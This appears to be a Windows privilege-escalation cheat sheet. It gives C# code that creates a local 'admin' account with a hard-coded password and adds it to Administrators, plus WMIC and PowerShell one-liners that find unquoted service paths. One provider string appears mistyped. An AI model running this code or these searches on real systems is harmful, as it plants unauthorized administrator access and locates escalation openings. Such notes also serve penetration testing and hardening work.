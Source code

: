 # Add a user to the local system - C#
- [Add a user to the local system - C#](https://docs.microsoft.com/en-us/troubleshoot/developer/visualstudio/csharp/language-compilers/add-user-local-system)
```csharp
// "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /target:exe /r:"C:\Windows\Microsoft.NET\Framework\v4.0.30319\System.DirectoryServices.dll" Program.cs

using System;
using System.DirectoryServices;

class Class1
{
    static void Main(string[] args)
    {
        try
        {
            DirectoryEntry AD = new DirectoryEntry("WinNTc://" +
            Environment.MachineName + ",computer");
            DirectoryEntry NewUser = AD.Children.Add("admin", "user");
            NewUser.Invoke("SetPassword", new object[] {"#12345Abc"});
            NewUser.Invoke("Put", new object[] {"Description", "Test User from .NET"});
            NewUser.CommitChanges();
            DirectoryEntry grp;

            grp = AD.Children.Find("Administrators", "group");
            if (grp != null) {grp.Invoke("Add", new object[] {NewUser.Path.ToString()});}
            Console.WriteLine("Account Created Successfully");
            Console.ReadLine();
        }
        catch (Exception ex)
        {
            Console.WriteLine(ex.Message);
            Console.ReadLine();
        }
    }
}
```

# Unquoted Service Paths

## WMIC
```batchfile
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

## PowerShell
```powershell
$result = $null
$result = Get-WmiObject win32_service | Where-Object {($_.PathName -like '* *') -and ($_.PathName -notlike '*"*') -and ($_.PathName -notlike '*C:\Windows*')} | ForEach-Object { Write $_.PathName }
if ($result -ne $null) { Write $result | Sort -Unique } else { Write "Weak services were not found." }
```

## Specific service
```batchfile
sc qc "<service name>"
```

